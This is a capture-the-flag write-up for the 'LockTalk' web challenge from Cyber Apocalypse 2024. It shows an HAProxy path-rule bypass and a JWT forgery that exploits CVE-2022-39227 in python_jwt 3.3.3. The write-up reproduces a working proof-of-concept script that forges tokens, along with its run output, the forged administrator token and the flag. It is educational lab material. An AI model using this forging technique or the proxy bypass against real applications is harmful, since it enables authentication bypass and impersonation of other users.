 # Cyber Apocalypse 2024

## LockTalk

> In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.
> 
> Author: dhmosfunk
> 
> [`web_locktalk.zip`](web_locktalk.zip)

Tags: _web_

## Solution
For this challenge we get a webapp that offers three endpoints.

```bash
/api/v1/get_ticket
-> Generates a ticket (JWT token)

/api/v1/chat/{chatId}
-> Find chat history by ID

/api/v1/flag
-> Retrieves the flag
```

Lets inspect the source code for this. The chat history turns out to be completely unnecessary. So we concentrate on the other two endpoints. To get the flag we need to be authorized as `administrator`, therefore we need a `JWT` with the correct claim.

```python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

The endpoint `/api/v1/get_ticket` is not restricted, but when we want to trigger it we get `Forbidden: Request forbidden by administrative rules.`.

```python
@api_blueprint.route('/get_ticket', methods=['GET'])
def get_ticket():

    claims = {
        "role": "guest",
        "user": "guest_user"
    }

    token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
    return jsonify({'ticket: ': token})
```

As it turns out a `haproxy` is configured and blocks this route. 

```bash
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

This can be bypassed easily by adding an extra `/` to the beginning of the route or adding `%0` to the end. Calling it like this gives us a ticket.

```json
{"ticket: ":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA1NDc4OTMsImlhdCI6MTcxMDU0NDI5MywianRpIjoiV1lDR19PVm0yZHZFNVhsZGVYejEtUSIsIm5iZiI6MTcxMDU0NDI5Mywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.GtbxJXolesU85D0Y3BnMU869VqB-2fqf9KGBXPBKggUU-7NopcFdfYtMLLW96zwpeqi_-uOkZeVDFNjNr513W8SbqAtf5dkkLO53ovUWgu3DhfkEy2HMZw-hhULkxGK4nq2HR6Rpf7HWBlxOaNwc0PBLgEbcOktGZBkKx0pbRdH_V7OjGAUwQkkETHY8Ro5mjFCtqdAIlgDTy-SRM8PPwLXdRCP1L20VNvoljeTsFFjbQvrsV8-DuzXcc8FDt6YeVfNDwmjiXJqPapjy068fDNxDdBFXIAqTHjiLAAcjbeuioIAPkesEsoySf2bf1jCqHSetH1jE7PXBgErdIzxvWQ"}
```

Using [`JWT Debugger`](https://jwt.io/) we can see the token uses `PS256` to sign the token and is for `guest_user` in `guest` role.

```json
{
  "alg": "PS256",
  "typ": "JWT"
}

{
  "exp": 1710547893,
  "iat": 1710544293,
  "jti": "WYCG_OVm2dvE5XldeXz1-Q",
  "nbf": 1710544293,
  "role": "guest",
  "user": "guest_user"
}
```

The function `authorize_roles` uses `jwt.verify_jwt` to verify the token and specifies the signing algorithm. We can see the `JWT_SECRET_KEY` is created with `JWT_SECRET_KEY = jwk.JWK.generate(kty='RSA', size=2048)` (config.py), so we dont bother cracking the secret.

```python
def authorize_roles(roles):
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            token = request.headers.get('Authorization')

            if not token:
                return jsonify({'message': 'JWT token is missing or invalid.'}), 401

            try:
                token = jwt.verify_jwt(token, current_app.config.get('JWT_SECRET_KEY'), ['PS256'])
                user_role = token[1]['role']

                if user_role not in roles:
                    return jsonify({'message': f'{user_role} user does not have the required authorization to access the resource.'}), 403

                return func(*args, **kwargs)
            except Exception as e:
                return jsonify({'message': 'JWT token verification failed.', 'error': str(e)}), 401
        return wrapper
    return decorator
```

Checking out `requirements.txt` we see that `python_jwt==3.3.3` is used. After some research we can find [`CVE-2022-39227`](https://nvd.nist.gov/vuln/detail/CVE-2022-39227) which claims:

> python-jwt is a module for generating and verifying JSON Web Tokens. Versions prior to 3.3.4 are subject to Authentication Bypass by Spoofing, resulting in identity spoofing, session hijacking or authentication bypass. An attacker who obtains a JWT can arbitrarily forge its contents without knowing the secret key. Depending on the application, this may for example enable the attacker to spoof other user's identities, hijack their sessions, or bypass authentication. Users should upgrade to version 3.3.4. There are no known workarounds.

We also find a [Proof of Concept](https://github.com/user0x1337/CVE-2022-39227).

```python
#!/usr/bin/env python3
# Proof of concept for the CVE-2022-39227. According to this CVE, there is a flaw in the JSON Web Token verification. It is possible with a valid token to re-use its signature with moified claims.
#
# Application: python-jwt
# Infected version: < 3.3.4
# CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-39227
#
# Dependencies: jwcrypto, json, argparse
# Author: user0x1337
# Github: https://github.com/user0x1337
#
from json import loads, dumps
from jwcrypto.common import base64url_decode, base64url_encode
import argparse

parser = argparse.ArgumentParser(prog='CVE-2022-39227-PoC', description='Proof of Concept for the JWT verification bug in python-jwt version < 3.3.4')
parser.add_argument('-j', '--jwt_token', required=True, dest='token', help='Original and valid JWT Token returned by the application')
parser.add_argument('-i', '--injected_claim', required=True, dest='claim', help='Inject claim using the form "key=value", e.g. "username=admin". Use "," for more claims (e.g. username=admin,id=3)')
args = parser.parse_args()

# Split JWT in its ingredients
[header, payload, signature] = args.token.split(".")
print(f"[+] Retrieved base64 encoded payload: {payload}")

# Payload is relevant
parsed_payload = loads(base64url_decode(payload))
print(f"[+] Decoded payload: {parsed_payload}")

# Processing of the user input and inject new claims
try:
    claims = args.claim.split(",")
    for c in claims:
        key, value = c.split("=")
        parsed_payload[key.strip()] = value.strip()
except:
    print("[-] Given claims are not in a valid format")
    exit(1)

# merging. Generate a new payload
print(f'[+] Inject new "fake" payload: {parsed_payload}')
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
print(f'[+] Fake payload encoded: {fake_payload}\n')

# Create a new JWT Web Token
new_payload = '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
print(f'[+] New token:\n {new_payload}\n')
print(f'Example (HTTP-Cookie):\n------------------------------\nauth={new_payload}')
```

Having all in place, we can now forge a token that gives us a admin role:

```bash
$ python poc.py --jwt_token eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA1NDc4OTMsImlhdCI6MTcxMDU0NDI5MywianRpIjoiV1lDR19PVm0yZHZFNVhsZGVYejEtUSIsIm5iZiI6MTcxMDU0NDI5Mywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.GtbxJXolesU85D0Y3BnMU869VqB-2fqf9KGBXPBKggUU-7NopcFdfYtMLLW96zwpeqi_-uOkZeVDFNjNr513W8SbqAtf5dkkLO53ovUWgu3DhfkEy2HMZw-hhULkxGK4nq2HR6Rpf7HWBlxOaNwc0PBLgEbcOktGZBkKx0pbRdH_V7OjGAUwQkkETHY8Ro5mjFCtqdAIlgDTy-SRM8PPwLXdRCP1L20VNvoljeTsFFjbQvrsV8-DuzXcc8FDt6YeVfNDwmjiXJqPapjy068fDNxDdBFXIAqTHjiLAAcjbeuioIAPkesEsoySf2bf1jCqHSetH1jE7PXBgErdIzxvWQ -i role=administrator
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTA1NDc4OTMsImlhdCI6MTcxMDU0NDI5MywianRpIjoiV1lDR19PVm0yZHZFNVhsZGVYejEtUSIsIm5iZiI6MTcxMDU0NDI5Mywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710547893, 'iat': 1710544293, 'jti': 'WYCG_OVm2dvE5XldeXz1-Q', 'nbf': 1710544293, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710547893, 'iat': 1710544293, 'jti': 'WYCG_OVm2dvE5XldeXz1-Q', 'nbf': 1710544293, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTA1NDc4OTMsImlhdCI6MTcxMDU0NDI5MywianRpIjoiV1lDR19PVm0yZHZFNVhsZGVYejEtUSIsIm5iZiI6MTcxMDU0NDI5Mywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA1NDc4OTMsImlhdCI6MTcxMDU0NDI5MywianRpIjoiV1lDR19PVm0yZHZFNVhsZGVYejEtUSIsIm5iZiI6MTcxMDU0NDI5Mywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA1NDc4OTMsImlhdCI6MTcxMDU0NDI5MywianRpIjoiV1lDR19PVm0yZHZFNVhsZGVYejEtUSIsIm5iZiI6MTcxMDU0NDI5Mywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"GtbxJXolesU85D0Y3BnMU869VqB-2fqf9KGBXPBKggUU-7NopcFdfYtMLLW96zwpeqi_-uOkZeVDFNjNr513W8SbqAtf5dkkLO53ovUWgu3DhfkEy2HMZw-hhULkxGK4nq2HR6Rpf7HWBlxOaNwc0PBLgEbcOktGZBkKx0pbRdH_V7OjGAUwQkkETHY8Ro5mjFCtqdAIlgDTy-SRM8PPwLXdRCP1L20VNvoljeTsFFjbQvrsV8-DuzXcc8FDt6YeVfNDwmjiXJqPapjy068fDNxDdBFXIAqTHjiLAAcjbeuioIAPkesEsoySf2bf1jCqHSetH1jE7PXBgErdIzxvWQ"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA1NDc4OTMsImlhdCI6MTcxMDU0NDI5MywianRpIjoiV1lDR19PVm0yZHZFNVhsZGVYejEtUSIsIm5iZiI6MTcxMDU0NDI5Mywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA1NDc4OTMsImlhdCI6MTcxMDU0NDI5MywianRpIjoiV1lDR19PVm0yZHZFNVhsZGVYejEtUSIsIm5iZiI6MTcxMDU0NDI5Mywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"GtbxJXolesU85D0Y3BnMU869VqB-2fqf9KGBXPBKggUU-7NopcFdfYtMLLW96zwpeqi_-uOkZeVDFNjNr513W8SbqAtf5dkkLO53ovUWgu3DhfkEy2HMZw-hhULkxGK4nq2HR6Rpf7HWBlxOaNwc0PBLgEbcOktGZBkKx0pbRdH_V7OjGAUwQkkETHY8Ro5mjFCtqdAIlgDTy-SRM8PPwLXdRCP1L20VNvoljeTsFFjbQvrsV8-DuzXcc8FDt6YeVfNDwmjiXJqPapjy068fDNxDdBFXIAqTHjiLAAcjbeuioIAPkesEsoySf2bf1jCqHSetH1jE7PXBgErdIzxvWQ"}
```

Using the endpoint `/api/v1/flag` with this token gives us the flag.

Flag `HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`